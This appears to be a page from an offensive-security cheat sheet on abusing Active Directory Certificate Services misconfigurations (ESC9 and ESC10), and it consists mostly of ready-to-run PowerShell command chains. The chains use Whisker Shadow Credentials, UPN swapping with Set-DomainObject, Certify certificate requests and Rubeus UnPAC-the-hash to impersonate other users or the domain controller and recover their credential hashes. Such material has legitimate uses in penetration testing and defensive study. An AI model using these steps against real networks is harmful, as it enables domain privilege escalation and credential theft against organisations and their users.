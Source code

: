 ###### ESC9

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request vulnerable certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"Vulnerable template"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

###### ESC10 - Case 1

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

###### ESC10 - Case 2

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to DC$@contoso.local
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@contoso.local'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:CA.contoso.local\CA /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
```
